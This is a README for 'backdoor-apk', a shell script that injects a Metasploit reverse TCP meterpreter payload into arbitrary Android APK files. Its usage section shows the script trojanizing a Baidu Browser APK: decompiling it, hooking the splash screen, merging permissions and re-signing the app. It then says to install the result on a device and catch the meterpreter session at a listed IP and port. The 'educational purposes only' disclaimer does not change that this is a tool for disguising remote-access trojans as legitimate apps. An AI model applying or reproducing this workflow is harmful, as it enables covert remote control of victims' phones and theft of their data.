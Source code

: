 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind. This shell script is intended for educational purposes only.

Usage:

root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating reverse tcp meterpreter payload...done.
[+] Handle the meterpreter connection at: 10.6.9.31:1337
[*] Decompiling original APK file...done.
[*] Decompiling RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[+] Original smali file to hook: /root/Android/evol-lab/BaiduBrowserRat/original/smali/com/baidu/browser/inter/SplashActivity.smali
[*] Adding hook in original smali file...done.
[*] Merging permissions of original and payload projects...done.
[*] Recompiling original project with backdoor...done.
[*] Signing recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#

The recompiled APK will be found in the 'original/dist' directory. Install the APK on an Android device and handle the meterpreter connection at the specified IP and port.

